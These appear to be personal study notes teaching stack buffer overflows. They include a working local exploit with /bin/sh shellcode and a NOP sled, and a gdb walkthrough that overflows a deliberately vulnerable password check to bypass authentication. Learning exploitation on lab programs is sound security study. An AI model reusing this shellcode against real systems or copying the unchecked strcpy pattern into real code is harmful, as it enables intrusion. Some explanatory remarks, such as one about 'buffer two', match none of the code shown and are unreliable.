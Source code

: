 How buffer overflows work:

![[Drawing 2023-06-29 10.06.08.excalidraw|8000]]

```ad-important
You need to compile in gcc with the `-fno-stack-protector` flag, for bufferoverflows to work. `-m32`, `-z execstack` can also be useful.
```

An example buffer overflowable code:

```c title:"exploit_notesearch.c"
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char shellcode[]= 
"\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68"
"\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89"
"\xe1\xcd\x80";

int main(int argc, char *argv[]) {
   unsigned int i, *ptr, ret, offset=270;
   char *command, *buffer;

   command = (char *) malloc(200);
   bzero(command, 200); // zero out the new memory

   strcpy(command, "./notesearch \'"); // start command buffer
   buffer = command + strlen(command); // set buffer at the end

   if(argc > 1) // set offset
      offset = atoi(argv[1]);

   ret = (unsigned int) &i - offset; // set return address

   for(i=0; i < 160; i+=4) // fill buffer with return address
      *((unsigned int *)(buffer+i)) = ret;
   memset(buffer, 0x90, 60); // build NOP sled
   memcpy(buffer+60, shellcode, sizeof(shellcode)-1); 

   strcat(command, "\'");

   system(command); // run exploit
   free(command);
}
```

By inputting anything bigger then 8 bytes into buffer two we can cause the stack to overflow.

A better example might be this:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int check_authentication(char *password) {
	int auth_flag = 0; // if this flag is 1, or bigger than 0, it's goodsdf
	char password_buffer[16]; // 16 long buffer, this is the issue.

	strcpy(password_buffer, password);

	// set the flag if the password is right.
	if(strcmp(password_buffer, "brillig") == 0)
		auth_flag = 1;
	if(strcmp(password_buffer, "outgrabe") == 0)
		auth_flag = 1;

	return auth_flag;
}

int main(int argc, char *argv[]) {
	if(argc < 2) {
		printf("Usage: %s <password>\n", argv[0]);
		exit(0);
	}
	if(check_authentication(argv[1])) {
		printf("\n-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
		printf("      Access Granted.\n");
		printf("-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
	} else {
		printf("\nAccess Denied.\n");
   }
}
```

There are several issues, here, first of all, the buffer is 16 bytes long and the user data copied into it is not checked, meaning if it’s bigger it overflows the buffer.

Furthermore, the `authflag` is placed in a way that `password_buffer` can easily overwrite it.

Let’s see how we can exploit it.

```bash-output
❯ ./auth_overflow.o aaaa

Access Denied.
```

Well, that didn’t work ofc.

Let’s try adding more `a`:

```bash-output
❯ ./auth_overflow.o aaaaaaaaaaaaaaaaaaaa
[1]    25853 segmentation fault (core dumped)  
```

That’s a `segfault`, we can do better than that.
```bash-output
❯ ./auth_overflow.o aaaaaaaaaaaaaaaaa   

-=-=-=-=-=-=-=-=-=-=-=-=-=-
      Access Granted.
-=-=-=-=-=-=-=-=-=-=-=-=-=-
```

Why did that work?

```c file:auth_overflow_part.c
int auth_flag = 0; 

char password_buffer[16];
```

We have these two variables, first, `auth_flag` is pushed onto stack, then `password_buffer` is pushed onto the stack. And since `auth_flag` is at a higher address, when we overflow `password_buffer`, it starts writing to the higher address, which is `auth_flag`.

Let’s also look at the check of the `auth_flag`:

```c file:auth_overflow_part.c
if(check_authentication(argv[1])) {
```

We can see that it’s checking for if it’s true. True in C, just means anything non-zero. So this passes whatever `auth_flag` is.

Now let’s boot up `gdb` to see what’s going on.

Let’s put a breakpoint at the `strcpy()` and the `check_auth()` functions, by line number.

Now let’s run it and start examining.

Let’s look at the `password_buffer`:
```gdb
gef➤  x/s password_buffer
0xffffcac0:	"\377\377\377\377\370\315\300\367\200\023\374", <incomplete sequence \367>
```

We can see it’s filled with random uninitialized data, at the address of `0xffffcac0`.

Now let’s look at the `auth_flag`:

```gdb
gef➤  x/x &auth_flag
0xffffcad0:	0x00
```

By inspecting the address it’s at, we can see both the address and the data stored at it. Which is, as we probably could guess, 0.

Now let’s see how many bytes are between the two:

```gdb
gef➤  print 0xffffcad0 - 0xffffcac0
$1 = 0x10
```

16 bytes. So we have to overwrite that.

Let’s examine the password buffer and some bytes after it:

```gdb
gef➤  x/16xw password_buffer
0xffffcac0:	0xffffffff	0xf7c0cdf8	0xf7fc1380	0x00000000
0xffffcad0:	0x00000000	0x56558ff4	0xffffcae8	0x56556278
0xffffcae0:	0xffffce11	0xf7e22e34	0x00000000	0xf7c1f6e9
0xffffcaf0:	0x00000002	0xffffcba4	0xffffcbb0	0xffffcb10
```

we can see that `0x00000000` is at `0xffffcad0`, that’s 16 bytes from `0xffffffff`.

Let’s run till the next break point using `continue`, then let’s check the value of `password_buffer`.

```gdb
gef➤  x/s password_buffer
0xffffcac0:	'A' <repeats 18 times>
```

So it’s filled with `a`. We can see that it says 18 times, even tho the buffer is just 16 bytes long. I THINK, this is because it starts reading the bytes, and only stops at a null string.

But where did that last two bytes go then? Since we don’t have place in the memory for more… Let’s check the `auth_flag`. 

```gdb
gef➤  x/x &auth_flag
0xffffcad0:	0x41
```

We can see that a non-zero value appeared in it, even tho we didn’t change it at all!

```gdb
gef➤  x/16xw password_buffer
0xffffcac0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffcad0:	0x00004141	0x56558ff4	0xffffcae8	0x56556278
0xffffcae0:	0xffffce11	0xf7e22e34	0x00000000	0xf7c1f6e9
0xffffcaf0:	0x00000002	0xffffcba4	0xffffcbb0	0xffffcb10
```

Now we can see how the buffer filled up the memory!

```gdb
gef➤  continue
Continuing.

-=-=-=-=-=-=-=-=-=-=-=-=-=-
      Access Granted.
-=-=-=-=-=-=-=-=-=-=-=-=-=-
```

aaaand the buffer overflow worked!

